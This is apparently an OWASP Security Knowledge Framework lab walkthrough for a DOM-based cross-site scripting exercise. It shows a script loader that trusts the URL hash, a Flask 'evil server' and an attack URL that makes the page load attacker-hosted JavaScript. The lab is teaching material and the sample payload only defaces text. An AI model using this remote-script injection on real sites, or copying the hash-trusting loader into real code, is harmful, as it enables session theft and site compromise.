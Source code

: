 # Cross Site Scripting \(DOM-2\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-xss-dom2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-xss-dom2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/4.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/5.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/1.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!!!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/2.png)

Now we can serve our malicious js file to the application

```text
http://localhost:5000/#java-xss-dom2xhttp://localhost:1337
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/3.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
